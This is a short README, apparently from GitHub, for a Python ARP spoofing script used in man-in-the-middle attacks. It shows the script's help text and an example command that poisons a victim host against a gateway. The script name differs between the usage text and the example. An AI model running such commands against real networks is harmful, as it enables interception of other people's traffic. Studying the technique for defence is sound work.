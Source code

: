 # ARP-spoofer
ARP Spoofer for MITM, send ARP Packets(false packets) to the victim on the network

## Usage
- `pip3 install -r requirements.txt`

output:

```
usage: spoofer.py [-h] [-T TARGET] [-H HOST] [-v]

ARP spoof script

options:
  -h, --help            show this help message and exit
  -T TARGET, --target TARGET
                        Victim IP Address to ARP poison
  -H HOST, --host HOST  Host IP Address, the host you wish to intercept packets for (usually the gateway)
  -v, --verbose         verbosity, default is True (simple message each second)
```

For instance, if you want to spoof <b>192.168.1.5</b> ang gateway <b>192.168.1.1</b>

```shell
python3 spoof.py -T 192.168.1.5 -H 192.168.1.1 --verbose
```
